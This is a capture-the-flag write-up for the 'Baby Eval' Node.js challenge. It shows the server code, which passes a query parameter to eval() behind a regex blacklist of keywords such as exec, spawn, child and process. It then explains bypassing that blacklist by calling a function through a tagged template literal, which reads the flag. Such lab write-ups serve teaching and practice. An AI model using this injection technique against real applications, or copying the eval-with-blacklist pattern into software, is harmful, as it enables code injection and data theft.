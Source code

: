 # Baby Eval
## The App
Baby Eval is a Node app which has a path `/` which lists some information including the server source code. As seen in the code the information comes from the following function:

```javascript
function directory(keys) {
    const values = {
        "title": "View Source CTF",
        "description": "Powered by Node.js and Express.js",
        "flag": process.env.FLAG,
        "lyrics": "Good job, you’ve made it to the bottom of the mind control facility. Well done.",
        "createdAt": "1970-01-01T00:00:00.000Z",
        "lastUpdate": "2022-02-22T22:22:22.222Z",
        "source": require('fs').readFileSync(__filename),
    };

    return "<dl>" + keys.map(key => `<dt>${key}</dt><dd><pre>${escape(values[key])}</pre></dd>`).join("") + "</dl>";
}
```

The webpage is created here:
```javascript
const payload = req.query.payload;

if (payload && typeof payload === "string") {
    const matches = /([\.\(\)'"\[\]\{\}<>_$%\\xu^;=]|import|require|process|proto|constructor|app|express|req|res|env|process|fs|child|cat|spawn|fork|exec|file|return|this|toString)/gi.exec(payload);
    if (matches) {
        res.status(400).send(matches.map(i => `<code>${i}</code>`).join("<br>"));
    } else {
        res.send(`${eval(payload)}`);
    }
} else {
    res.send(directory(["title", "description", "lastUpdate", "source"]));
}
```

## Tried solutions
The goal was to get the flag. First I saw that the code can execute `eval` by entering a `payload` as the `GET` query parameter. I first did not see that the ReEx is a Blacklist, not a whitelist (stupid me), so many things don't work including calling functions because `(` and `)` are not allowed. I first tried something like Then I googled for a way to call a function without prenthesis. Found
```javascript
alert`hello`
```
and remembered that JavaScript Template Literals can have tags which are basically functions which first parameter is a list of strings. This list contains the parts of the string, split by the injection variables (`${x}`).

## Solution
```typescript
directory`flag`
```

```
?payload=directory`flag`
```

Because we don't have an injection variable, the argument of `directory` is just `[ "flag" ]`.